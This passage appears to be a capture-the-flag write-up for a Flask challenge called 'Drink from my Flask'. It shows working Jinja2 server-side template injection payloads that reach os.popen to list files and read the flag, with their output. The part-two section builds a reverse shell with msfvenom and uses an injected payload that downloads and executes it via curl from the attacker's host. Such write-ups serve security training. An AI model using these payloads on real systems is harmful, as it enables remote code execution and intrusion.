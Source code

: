The secret is 'key', so now we can change the guest to SSTI payload and see if it works :

```
{
  "role": "{{7*7}}"
}
```

```
Sorry but you can't access this page, you're a '49'
```

Then we can try to get RCE with this SSTI

```
{
  "role": "{% for x in ().__class__.__base__.__subclasses__() %}{% if 'warning' in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('ls -la').read()}}{%endif%}{%endfor%}"
}
```

```
Sorry but you can't access this page, you're a 'total 16
drwxr-xr-x 1 root     root     4096 May 13 03:06 .
drwxr-xr-x 1 root     root     4096 May 13 03:06 ..
-rw-r--r-- 1 root     root     3654 May 12 10:17 app.py
-r-------- 1 www-data www-data   28 May 13 03:06 flag.txt
```

The flag.txt is in our current directory, so we can just read it :

```
{
  "role": "{% for x in ().__class__.__base__.__subclasses__() %}{% if 'warning' in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('cat flag.txt').read()}}{%endif%}{%endfor%}"
}
```

Then we get the flag for part 1 :
```
Sorry but you can't access this page, you're a 'Hero{sst1_fl4v0ur3d_c0Ok1e}
```

# Drink from my Flask#2 [475 points] [25 solves]

After getting RCE, we can just get a reverse shell as www-data

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<our address> LPORT=1337 -f elf > rev
```

```
{
  "role": "{% for x in ().__class__.__base__.__subclasses__() %}{% if 'warning' in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('curl http://<our address>/rev > /tmp/rev;chmod 777 /tmp/rev;/tmp/rev').read()}}{%endif%}{%endfor%}"
}
```
